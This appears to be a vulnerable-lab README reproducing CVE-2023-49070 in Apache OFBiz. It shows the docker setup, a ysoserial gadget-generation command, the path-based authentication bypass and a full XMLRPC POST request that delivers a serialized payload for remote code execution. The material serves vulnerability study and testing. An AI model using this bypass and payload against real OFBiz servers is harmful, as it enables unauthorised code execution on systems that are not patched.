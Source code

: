 # Unsafe deserialization of XMLRPC arguments in Apache OFBiz (CVE-2023-49070)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

Apahce OFBiz prior to 17.12.03, there is a deserialization issue caused by XMLRPC endpoint at `/webtools/control/xmlrpc`, which is marked as [CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496). Developer fixed this issue by adding authentication check and filter, but the patches have been bypassed by CVE-2023-49070.

Apache OFBiz deleted XMLRPC interface to escape this nightmare at version 18.12.10 eventually.

References:

- <https://www.openwall.com/lists/oss-security/2023/12/04/2>
- <https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.09 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

The method to reproduce CVE-2023-49070 is similar to [CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496), except that it requires bypassing the patches.

First of all, use [ysoserial](https://github.com/frohoff/ysoserial) to generate a CommonsBeanutils1 gadget payload:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

Sending packets using the method in CVE-2020-9496 no longer works:

![](2.png)

But modifing the path to `/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y` is able to bypass the restriction:

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](3.png)

`touch /tmp/success` has been executed in the container:

![](4.png)
